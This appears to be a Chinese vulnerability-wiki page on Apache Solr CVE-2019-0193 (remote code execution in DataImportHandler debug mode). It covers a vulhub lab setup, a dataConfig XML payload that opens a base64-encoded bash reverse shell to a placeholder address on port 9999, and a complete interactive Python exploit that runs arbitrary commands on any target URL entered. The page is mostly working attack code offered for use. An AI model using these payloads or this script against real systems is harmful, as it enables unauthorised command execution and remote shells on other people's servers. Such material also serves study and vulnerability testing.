 # Apache Solr 远程执行漏洞 CVE-2019-0193

## 漏洞描述

2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与`data-config.xml` 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 `dataConfig` 参数中可以包含 script 恶意脚本导致远程代码执行。

参考阅读：

- [apache solr远程代码执行漏洞(cve-2019-0193)](https://blog.csdn.net/whatday/article/details/106959989?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param)

## 漏洞影响

```
Apache Solr < 8.2.0
```

## 环境搭建

```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-0193
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![image-20220209115752919](images/202202091157982.png)

## 漏洞复现

点击刚刚创建的test进入调试

![image-20220209115805307](images/202202091158371.png)将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

```python
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell
```

点击EXecute执行代码

![image-20220209115830350](images/202202091158409.png)

![image-20220209115843491](images/202202091158536.png)

成功反弹shell

## 漏洞POC

```python
POC不支持反弹shell，如需反弹shell，请按如上步骤反弹shell
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mCmd    >>> whoami(命令执行)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    mode_url = target_url + "/solr/" + core_name + "/admin/mbeans?cat=QUERY&wt=json"
    response = requests.request("GET", url=mode_url, timeout=20)
    mode = dict(dict(list(json.loads(response.text)["solr-mbeans"])[1])['/dataimport'])['class']
    if "org.apache.solr.handler.dataimport.DataImportHandler" in mode:
        print("\033[32m[o] 目标Url,Dataimport模块开启\033[0m")
    else:
        print("\033[31m[x] 目标Url,Dataimport模块未开启\033[0m")
        sys.exit(0)

def POC_3(target_url, core_name, cmd):
    vuln_url = target_url + "/solr/" + core_name + "/dataimport"

    headers = {
        'Host': target_url,
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        'Accept': "application/json, text/plain, */*",
        'Accept-Language': "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        'Accept-Encoding': "zip, deflate",
        'Referer': "" + target_url + "/solr/",
        'Content-type': "application/x-www-form-urlencoded",
        'X-Requested-With': "XMLHttpRequest",
        'Content-Length': "1007",
        'Connection': "close"
    }

    payload = """
        command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test&name=dataimport&dataConfig=
        <dataConfig>
          <dataSource type="URLDataSource"/>
          <script><![CDATA[
                  function poc(row){
         var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("%s").getInputStream()));
        var result = [];
        while(true) {
        var oneline = bufReader.readLine();
        result.push( oneline );
        if(!oneline) break;
        }
        row.put("title",result.join("\\n\\r"));
        return row;
        }
          ]]></script>
                <document>
                     <entity name="entity1"
                             url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                             processor="XPathEntityProcessor"
                             forEach="/RDF/item"
                             transformer="script:poc">
                                <field column="title" xpath="/RDF/item/title" />
                     </entity>
                </document>
        </dataConfig>
        """ % cmd

    response = requests.request("POST", url=vuln_url, data=payload, headers=headers, timeout=30)
    try:
        get_message = list(json.loads(response.text)["documents"])[0]
        message = dict(get_message)['title'][0]
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m", message)
    except:
        print("\033[31m[x] 代码执行失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        else:
            POC_3(target_url, core_name, cmd)
```

![image-20220209115910125](images/202202091159388.png)

